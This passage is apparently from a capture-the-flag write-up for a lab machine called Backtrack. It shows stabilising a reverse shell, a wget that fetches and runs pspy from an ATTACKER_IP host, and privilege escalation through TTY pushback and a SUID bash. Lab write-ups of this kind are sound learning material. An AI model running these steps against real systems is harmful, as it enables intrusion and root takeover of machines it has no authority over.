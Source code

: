 Let's stablize our new shell:

1. Use Python to spawn a stable shell:

   ```sh
   python3 -c 'import pty;pty.spawn("/bin/bash")'
   ```

2. `CTRL+Z` to background the current shell

3. Fix echoing and foregrounds the shell:

   ```sh
   stty raw -echo;fg
   ```

4. Set terminal to use 256 colors:

   ```sh
   export TERM=xterm-256color
   ```

We can find the second flag in `/home/orville/flag2.txt`:

![54a89d0b86f2fc02d6c522099df1bf63.png](/resources/156cd04212714c08921fae4a2f3fe7ab.png)

### \[-] root\@Backtrack

Also, inside `/home/orville/` we'll find another interesting file, `web_snapshot.zip`. We can unzip the file using `unzip web_snapshot.zip` where we will find our PHP reverse shell, `revshell.jpg.php` which means there is a backup system for the web application:

![bcf8f82bd87b5eef12d4ad584b3012d3.png](/resources/63fb9d5e89fc46258fc4d68f5683848d.png)

To find out what might be going on in the background processes, we can use the [pspy](https://github.com/DominicBreuker/pspy) tool by Dominic Breuker. After downloading `pspy64`, we can host it using a simple Python server:

```plaintext
python3 -m http.server 8889
```

Then download it onto the victim machine with `wget`, give it execute permissions using `chmod` and execute the application:

```plaintext
cd /tmp
wget <ATTACKER_IP>:8889/pspy64
chmod +x
./psyp64
```

After some time, we will see some interesting processes show up. First, there is an SSH connection as the `root` user and then a switch to the user `orville` using `su orville` so the ZIP command to backup the web application is done by `orville`:

![c6cd387f33a6edee0fcb5e5972ecd3cc.png](/resources/edae38db312542709f180956f2718388.png)

For additional security, when using the `su` command, you should add the `-P` flag to create a pseudo terminal for that session to avoid TTY Pushback/TIOCSTI ioctl terminal injection. Using `SIGSTOP` will switch focus from the low privilege shell and give us the root shell, but since we won't have access to that terminal session directly, we can set the SUID bit on `bash` which will give us permissions to escalate us to `root`.
